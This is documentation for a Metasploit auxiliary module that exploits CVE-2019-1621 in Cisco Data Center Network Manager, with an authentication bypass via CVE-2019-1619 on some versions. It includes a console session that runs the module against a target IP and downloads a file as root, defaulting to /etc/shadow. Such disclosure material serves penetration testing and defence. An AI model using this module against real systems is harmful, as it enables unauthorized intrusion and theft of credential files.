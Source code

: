 ## Intro

Cisco Data Center Network Manager exposes a servlet to download files on /fm/downloadServlet.
An authenticated user can abuse this servlet to download arbitrary files as root by specifying
the full path of the file (aka CVE-2019-1621).

This module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why), on the other versions it abuses CVE-2019-1619 to bypass authentication.


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-bypass
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-file-dwnld
https://raw.githubusercontent.com/pedrib/PoC/master/exploits/metasploit/cisco_dcnm_download.rb
https://seclists.org/fulldisclosure/2019/Jul/7


## Usage

Setup RHOST, pick the file to download (FILENAME, default is /etc/shadow) and enjoy!

```
msf5 exploit(multi/http/cisco_dcnm_upload_2019) > use auxiliary/admin/cisco/cisco_dcnm_download

msf5 auxiliary(admin/cisco/cisco_dcnm_download) > set rhost 10.75.1.40
rhost => 10.75.1.40
msf5 auxiliary(admin/cisco/cisco_dcnm_download) > run

[+] 10.75.1.40:443 - Detected DCNM 10.4(2)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Got sysTime value 1567081446000
[+] 10.75.1.40:443 - Successfully authenticated our JSESSIONID cookie
[+] File saved in: /home/john/.msf4/loot/20190829122407_default_10.75.1.40_ciscoDCNM.http_855907.bin
[*] Auxiliary module execution completed
```
